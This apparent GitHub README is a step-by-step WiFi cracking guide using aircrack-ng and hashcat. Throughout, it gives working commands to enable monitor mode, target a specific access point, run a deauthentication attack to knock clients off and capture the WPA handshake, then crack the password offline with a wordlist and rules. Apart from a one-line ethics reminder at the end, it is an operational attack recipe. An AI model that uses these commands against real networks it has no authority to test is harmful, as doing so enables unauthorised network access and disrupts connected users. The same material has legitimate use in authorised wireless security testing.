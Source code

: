 # 🕵️‍♂️ How to Crack WiFi: The Handshake Method 📡

## **🛠 Tools Required**

- **Aircrack-ng:** [https://github.com/aircrack-ng/aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) 🌐
- **Hashcat:** [https://github.com/hashcat/hashcat](https://github.com/hashcat/hashcat) 🔓

## **🔧 Setup and Monitoring**

### 📶 Identify Wireless Adapter
- **Command:** `iwconfig` or `ifconfig`

### 🚫 Kill Competing Processes
- **Command:** `sudo airmon-ng check kill`

### 📡 Enable Monitor Mode
- **Command:** `airmon-ng start <network interface>`
- **Note:** The card name often changes after being switched to monitor mode, confirm the name of your card with `iwconfig` or `ifconfig`.

## **🔍 Network Scanning**

### 🐜 Scan for Networks
- **Command:** `sudo airodump-ng <network interface>`

### 🎯 Focus Scan on Target Network
- **Command:** `sudo airodump-ng <network interface> --bssid <AP>`

## **📦 Capture Packets**

### 💾 Capture and Save Packets
- **Command:** `sudo airodump-ng -c <channel number> --bssid <AP BSSID> <network interface> -w <path for saved packets file>`

### 🛑 De-authentication Attack
- **Command:** `sudo aireplay-ng -a <BSSID of the AP> --deauth <time> <network interface>`
- **Tip:** Targeting a client may be more effective than targeting the access point directly: `sudo aireplay-ng -a <BSSID of the AP> -c <BSSID of the Client> --deauth <time> <network interface>`

### ✅ Handshake Capture
- **Watch for:** `WPA handshake: <mac address>`
- **Tip:** If `WPA handshake: <mac address>` isn't displayed, you haven't captured the handshake. Try targeting the AP itself and each client individually. 

## **🔄 Post-Capture Processing**

### 🔄 Return Wireless Adapter to Managed Mode
- **Command:** `sudo service NetworkManager restart`

### 🔑 Convert Handshake to Hashcat Format
- **Tool:** [Hashcat cap2hashcat](https://hashcat.net/cap2hashcat/)
- **Tip:** Upload the saved packets file. If the file is to big (>20MB), optimize the file using the command below.

### 🗑 Optimize Capture File Size
- **Command:** `tshark -r dumpfile.cap/pcap -R "(wlan.fc.type_subtype == 0x00 || wlan.fc.type_subtype == 0x02 || wlan.fc.type_subtype == 0x04 || wlan.fc.type_subtype == 0x05 || wlan.fc.type_subtype == 0x08 || eapol)" -2 -F pcapng -w stripped.pcapng`

## **🔓 Cracking the Handshake**

### 🚀 Crack with Hashcat
- **Command:** `hashcat -m 22000 -o /path/to/output/file /path/to/converted/handshake/hash /path/to/wordlist -r /path/to/ruleset`
- **Recommended Wordlist and Ruleset:** Rockyou.txt and OneRuleToRuleThemStill

---

📌 Remember to operate ethically and within the bounds of the law when using these tools.
